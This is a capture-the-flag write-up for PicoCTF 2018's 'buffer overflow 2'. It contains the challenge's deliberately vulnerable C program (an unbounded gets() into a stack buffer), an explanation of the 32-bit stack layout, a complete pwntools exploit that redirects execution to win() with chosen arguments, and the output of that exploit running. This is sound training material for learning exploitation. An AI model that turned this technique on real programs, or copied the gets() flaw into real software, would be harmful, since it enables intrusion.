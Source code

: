 ```yaml
---
title: 1. Calling a function with args
description: Exploiting a buffer overflow to call a function with specific arguments.
---
```


# Buffer Overflow - Calling a function with args

## Summary

Exploiting a buffer overflow to call a function with specific arguments.

## Challenge

### Statement

!!! note ""
    Challenge : buffer overflow 2 from PicoCTF 2018.

Alright, this time you’ll need to control some arguments. Can you get the flag from this program?

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xDEADC0DE)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

## Answer

```shell
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=f2f6cce698b62f5109de9955c0ea0ab832ea967c, not stripped
```

The goal of this challenge is to call the **win** function with the two arguments, **0xDEADBEEF** and **0xDEADC0DE**. As you have probably noticed, the **vuln** function is vulnerable to a buffer overflow attack which allows us to rewrite **EIP** and thus call the **win** function. We can pass it the two required arguments using the stack as we are in 32 bits.

| Stack          |
| :------------: |
| EIP            |
| Return address |
| Argument n°1   |
| Argument n°2   |
| ...            |

```python linenums="1"
#!/usr/bin/env python3
from pwn import process, p32, ELF

# Run the binary
PROGRAM = "./vuln"
p = process(PROGRAM)

# Setup the payload
elf = ELF(PROGRAM)
win_func_addr = p32(elf.symbols["win"])
arg1 = p32(0xDEADBEEF)
arg2 = p32(0xDEADC0DE)
padding = ("A" * (100 + 12)).encode() # BUFSIZE + stuff we do not care about
padding2 = ("A" * 4).encode() # Override the return address

payload = padding + win_func_addr + padding2 + arg1 + arg2

# Sending the payload
p.sendlineafter("your string: \n", payload)
p.interactive()
```

Execution :

```shell
$ echo "ggflag" > flag.txt
$ python3 solve.py 
[+] Starting local process './vuln': pid 13568
[*] '/home/xxx/pico/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA˅\x04AAAAﾭ\xde\xde\xc0\xad\xde
ggflag
[*] Got EOF while reading in interactive
$ 
```
